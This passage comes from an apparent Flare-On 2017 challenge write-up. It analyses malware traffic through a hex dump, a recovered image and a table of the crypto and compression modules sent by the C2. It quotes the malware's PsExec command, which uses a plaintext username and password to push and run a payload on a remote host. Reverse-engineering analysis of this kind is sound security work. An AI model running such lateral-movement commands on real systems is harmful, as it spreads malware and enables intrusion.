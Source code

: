 ```txt
00010A26  32 30 31 37 49 d8 69 59  24 00 00 00 4c 40 00 00   2017I.iY $...L@..
00010A36  4c 40 00 00 51 29 8f 74  16 67 d7 ed 29 41 95 01   L@..Q).t .g..)A..
00010A46  06 f5 05 45 1c 00 00 00  30 40 00 00 30 40 00 00   ...E.... 0@..0@..
00010A56  f3 71 26 ad 88 a5 61 7e  af 06 00 0d 42 4c 5a 21   .q&...a~ ....BLZ!
00010A66  17 04 17 20 03 00 00 00  51 00 00 00 00 00 00 00   ... .... Q.......
00010A76  00 00 00 00 a3 ae cc a1  cb 4f aa 7a 9a 59 4d 13   ........ .O.z.YM.
00010A86  8a 1b fb d5 00 00 01 00  38 d1 0f 00 00 40 00 00   ........ 8....@..
00010A96  f7 f7 f7 f7 f7 f7 f7 f7  f7 f7 f7 f7 f7 f7 f7 f7   ........ ........
00010AA6  f7 f7 f7 f7 f7 f7 f7 f7  f7 f7 f7 f7 f7 f7 f7 f7   ........ ........
00010AB6  f7 f7 f7 f7 f7 f7 f7 f7  f7 f7 f7 f7 f7 f7 f7 f7   ........ ........
[...]
```

Whereas others are compressed and/or encrypted by the different algorithms
mentioned above. However, they are all sent sequentially. Once all the fragments
extracted by the parser, they were merged into a raw file. Thanks to a good tip
by <i class="fa fa-twitter"> alex_k_polyakov</i>, I used the
website [RawPixels.net](http://rawpixels.net), and when setting a resolution of
1420x720, the following capture showed up:

{{ img(src="/img/flareon-2017/018ab4320dc95fa3b751227369cd27f7ee759579323d695c2453bcf9966179e0.png" title="image_alt6") }}

After all those efforts, finally a good lead on the challenge to find.


### More Loadable Modules !! ###

Continuing the replay of packets showed something very interesting:

{{ img(src="/img/flareon-2017/01c609d44427749a2caa64d7cb8ae54f41788be7313e2c94fd9cd8f65476cc9c.png" title="image_alt") }}

`secondstage.exe` was sending commands to a child process `cmd.exe`, attempting
to reach a host whose NetBIOS name is `larryjohnson-pc`, and if found, would run
drop 2 files in `C:\staging`, `pse.exe` and `srv2.exe`. Finally it would execute
the command:

```bat
pse.exe \\larryjohnson-pc -i -c -f -d -u larry.johnson -p n3v3rgunnag1veUup -accepteula srv2.exe
```

`pse.exe` is nothing more
than
[`SysInternals PsExec`](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec),
so the command would push and execute `srv2.exe` as the user `larry.johnson`. If
all went well, `secondstage.exe` then attempts to load a new Loadable Module,
`p.dll`, whose magic is 77D6CE92347337AEB14510807EE9D7BE. This DLL will be used
to proxy the packets from/to the C2 directly to `srv2.exe` via `secondstage.exe`. In
addition, the C2 then sends a few new Loadable Modules to the running `srv2.exe`
process:

| Name | Magic  | Description  | Category |
| b.dll | 2965E4A19B6E9D9473F5F54DFEF93533 | Blowfish implementation (CBC Mode) | CRPT |
| e.dll | 8746E7B7B0C1B9CF3F11ECAE78A3A4BC | Block XOR | CRPT |
| d.dll | 46C5525904F473ACE7BB8CB58B29968A | DES implementation (CBC Mode) | CRPT |
| c.dll | 9B1F6EC7D9B42BF7758A094A2186986B | Camellia implementation (ECB Mode) | CRPT |
| a.dll | 503B6412C75A7C7558D1C92683225449 | ApLib compression | COMP |
| l.dll | 0A7874D2478A7713705E13DD9B31A6B1 | LZO compression | COMP |
